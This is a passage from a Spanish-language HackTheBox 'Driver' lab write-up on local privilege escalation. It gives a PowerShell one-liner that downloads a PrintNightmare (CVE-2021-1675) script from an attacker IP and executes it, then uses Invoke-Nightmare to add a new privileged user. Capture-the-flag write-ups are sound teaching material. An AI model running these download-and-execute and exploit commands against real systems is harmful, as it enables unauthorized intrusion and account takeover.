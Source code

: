 Despues con la siguiente linea nos descargamos el script en la maquina windows y al mismo tiempo lo ejecutamos con la siguiente operatoria

```
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6/CVE-2021-1675.ps1')
```

![](/assets/img/HackTheBox/Driver/LPE3.png)

Ahora ejecutamos la siguiente linea con el nuevo user y password que le indiques

```
Invoke-Nightmare -DriverName "Xerox" -NewUser "user" -NewPassword "password" 
```

![](/assets/img/HackTheBox/Driver/LPE4.png)

```
net user
```

